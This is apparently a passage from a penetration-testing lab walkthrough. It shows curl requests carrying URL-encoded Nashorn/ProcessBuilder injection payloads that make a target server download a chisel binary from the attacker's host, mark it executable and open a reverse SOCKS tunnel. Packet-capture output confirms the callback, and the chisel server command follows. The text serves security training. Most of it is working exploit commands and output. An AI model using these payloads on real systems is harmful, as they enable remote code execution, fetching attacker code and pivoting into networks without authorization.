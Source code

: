 ```bash

kali@kali:~$ curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20192.168.118.4/chisel%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%20/tmp/chisel%27%29.start%28%29%22%29%7D/

kali@kali:~$ 
```
## TRY AGAIN
Now that we've swapped the incompatible chisel binary out with the new one on `CON01`, we can try to execute it again with an updated `curl` command:
```bash
kali@kali:~$ curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.118.4:8080%20R:socks%27%29.start%28%29%22%29%7D/

kali@kali:~$
```
### Verify
Now, if we check our `tcpdump` command, we should see output that looks like this:
```bash
kali@kali:~$ sudo tcpdump -nvvvXi tun0 tcp port 8080
tcpdump: listening on tun0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
...
18:13:53.687533 IP (tos 0x0, ttl 63, id 53760, offset 0, flags [DF], proto TCP (6), length 276)
    192.168.50.63.41424 > 192.168.118.4.8080: Flags [P.], cksum 0xce2b (correct), seq 1:225, ack 1, win 502, options [nop,nop,TS val 1290578437 ecr 143035602], length 224: HTTP, length: 224
        GET / HTTP/1.1
        Host: 192.168.118.4:8080
        User-Agent: Go-http-client/1.1
        Connection: Upgrade
        Sec-WebSocket-Key: L8FCtL3MW18gHd/ccRWOPQ==
        Sec-WebSocket-Protocol: chisel-v3
        Sec-WebSocket-Version: 13
        Upgrade: websocket

        0x0000:  4500 0114 d200 4000 3f06 3f4f c0a8 323f  E.....@.?.?O..2?
        0x0010:  c0a8 7604 a1d0 1f90 61a9 fe5d 2446 312e  ..v.....a..]$F1.
        0x0020:  8018 01f6 ce2b 0000 0101 080a 4cec aa05  .....+......L...
        0x0030:  0886 8cd2 4745 5420 2f20 4854 5450 2f31  ....GET./.HTTP/1
        0x0040:  2e31 0d0a 486f 7374 3a20 3139 322e 3136  .1..Host:.192.16
        0x0050:  382e 3131 382e 343a 3830 3830 0d0a 5573  8.118.4:8080..Us
        0x0060:  6572 2d41 6765 6e74 3a20 476f 2d68 7474  er-Agent:.Go-htt
        0x0070:  702d 636c 6965 6e74 2f31 2e31 0d0a 436f  p-client/1.1..Co
        0x0080:  6e6e 6563 7469 6f6e 3a20 5570 6772 6164  nnection:.Upgrad
        0x0090:  650d 0a53 6563 2d57 6562 536f 636b 6574  e..Sec-WebSocket
        0x00a0:  2d4b 6579 3a20 4c38 4643 744c 334d 5731  -Key:.L8FCtL3MW1
        0x00b0:  3867 4864 2f63 6352 574f 5051 3d3d 0d0a  8gHd/ccRWOPQ==..
        0x00c0:  5365 632d 5765 6253 6f63 6b65 742d 5072  Sec-WebSocket-Pr
        0x00d0:  6f74 6f63 6f6c 3a20 6368 6973 656c 2d76  otocol:.chisel-v
        0x00e0:  330d 0a53 6563 2d57 6562 536f 636b 6574  3..Sec-WebSocket
        0x00f0:  2d56 6572 7369 6f6e 3a20 3133 0d0a 5570  -Version:.13..Up
        0x0100:  6772 6164 653a 2077 6562 736f 636b 6574  grade:.websocket
        0x0110:  0d0a 0d0a                                ....
18:13:53.687745 IP (tos 0x0, ttl 64, id 60604, offset 0, flags [DF], proto TCP (6), length 52)
    192.168.118.4.8080 > 192.168.50.63.41424: Flags [.], cksum 0x46ca (correct), seq 1, ack 225, win 508, options [nop,nop,TS ...
...
```
Additionally, we should see an inbound connection on our *chisel server*:
```bash
kali@kali:~$ chisel server --port 8080 --reverse
```